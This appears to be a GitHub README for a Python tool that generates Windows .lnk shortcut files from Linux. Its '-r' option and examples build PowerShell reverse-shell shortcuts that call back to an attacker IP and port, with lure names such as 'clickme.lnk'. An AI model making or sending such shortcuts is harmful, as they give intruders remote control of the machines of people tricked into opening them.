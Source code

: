 # .lnk File Generator

Generate Windows shortcut files (.lnk) from Linux.

## Usage

### Command line
```bash
python3 lnk_generator.py -r 192.168.1.10 4444
python3 lnk_generator.py -c "ping 8.8.8.8"
python3 lnk_generator.py -c "calc.exe" -o calculator.lnk
```

### Interactive mode
```bash
python3 lnk_generator.py --interactive
```

## Options

| Option | Description |
|--------|-------------|
| `-c, --command` | Command to execute |
| `-r, --reverse IP PORT` | Generate PowerShell reverse shell |
| `-o, --output` | Output filename (default: clickme.lnk) |
| `--type` | Shortcut type: powershell/cmd/custom |
| `--desc` | Shortcut description |
| `-i, --interactive` | Force interactive mode |
| `-v, --verbose` | Verbose output |

## Examples

```bash
# PowerShell command
python3 lnk_generator.py -c "Get-Process"

# Reverse shell
python3 lnk_generator.py -r 192.168.1.10 4444 # Reverse Shell

# Reverse shell with custom filename
python3 lnk_generator.py -r 10.0.0.1 9001 -o debug.lnk

# CMD command  
python3 lnk_generator.py -c "dir" --type cmd

# Custom executable
python3 lnk_generator.py -c "C:\\Windows\\System32\\calc.exe" --type custom
```

## Requirements

- Python 3.6+
- Linux environment

## Files

- `lnk_generator.py` - Main interface
- `native_lnk_generator.py` - Core generator
- `template.lnk` - Windows template file
